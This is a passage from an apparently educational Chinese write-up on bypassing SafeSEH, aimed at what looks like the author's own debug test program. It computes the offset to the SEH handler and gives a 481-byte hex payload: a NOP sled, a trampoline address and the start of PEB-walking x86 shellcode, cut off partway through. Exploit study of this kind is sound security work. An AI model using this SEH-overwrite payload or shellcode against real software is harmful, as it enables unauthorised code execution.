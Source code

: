 SEH 链：

[![](assets/1709014184-e4116bf8a46c9af2b1db51703a5cf37e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240225183334-53bcccae-d3c9-1.png)

距离栈顶最近的 SEH 处理地址：`0x0019FE80`，距离我们的缓冲区`0x19FE80-0x19fdb0 = 208`。  
我们在 208 ~ 212 偏移处写上我们的跳板指令地址`0x560c15ee`，为了保证 ShellCode 不被破环，我们在后面再跟 8 个字节 nop，然后后面跟上我们的 ShellCode。  
Pyaload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SafeSEH\Debug\111.txt
// Address : 0 (0x0)
// Size    : 481 (0x1E1)
//------------------------------------------------------------
unsigned char hexData[481] = {
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0xEE, 0x15, 0x0C, 0x56,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
```